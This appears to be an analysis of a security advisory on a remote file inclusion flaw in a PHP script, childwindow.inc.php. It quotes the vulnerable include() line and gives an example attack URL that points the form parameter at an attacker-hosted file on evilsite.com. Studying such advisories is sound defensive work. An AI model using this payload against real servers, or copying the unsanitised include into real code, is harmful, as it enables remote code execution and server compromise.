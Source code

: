 Based on the provided content, here's an analysis:

**Root Cause of Vulnerability:**

The vulnerability stems from the insecure use of the `include()` function in the `childwindow.inc.php` script. The script takes a user-controlled parameter, `$form`, and directly uses it in an `include()` call without proper sanitization or validation. Specifically, the vulnerability lies in this line:

```php
<?php include($form.".form.inc.php");?>
```

**Weaknesses/Vulnerabilities Present:**

*   **Arbitrary File Inclusion:** The primary weakness is the ability to include arbitrary files. The script concatenates the user-provided `$form` parameter with a static string (`.form.inc.php`) and then includes the resulting file.
*   **Lack of Input Validation:** The script doesn't validate or sanitize the `$form` parameter, making it possible for an attacker to specify a malicious URL or file path.

**Impact of Exploitation:**

*   **Remote Code Execution:** By providing a URL to a file containing malicious PHP code, an attacker can execute arbitrary code on the server. This can lead to a full compromise of the server.
*   **Data Breach:** If the included file accesses sensitive data, the attacker could potentially steal that data.
*   **Denial of Service:** The attacker could potentially include a file that causes the server to crash or become unavailable.

**Attack Vectors:**

*   **HTTP GET Parameter:** The attacker can control the `$form` parameter via an HTTP GET request, as shown in the example:
    `http://www.vulnsite.com/popper/childwindow.inc.php?form=http://evilsite.com/test`

**Required Attacker Capabilities/Position:**

*   **Network Access:** The attacker needs to be able to send HTTP requests to the vulnerable server.
*   **Malicious File Hosting:** The attacker needs to host a malicious PHP file on a server they control to be included via the vulnerable script on the target.
*   **Understanding of the Vulnerability:** The attacker needs to know the structure of the vulnerable include statement to craft a malicious URL.

**Additional Information:**
*   The initial advisory was incorrect and mentioned the wrong filename being included and failed to highlight the insecure use of the `include()` function. The correction is provided in this email.
*   The `file_exists()` check mentioned in the original advisory is not related to the vulnerability described, as the vulnerability stems from the include statement that is performed regardless of this check.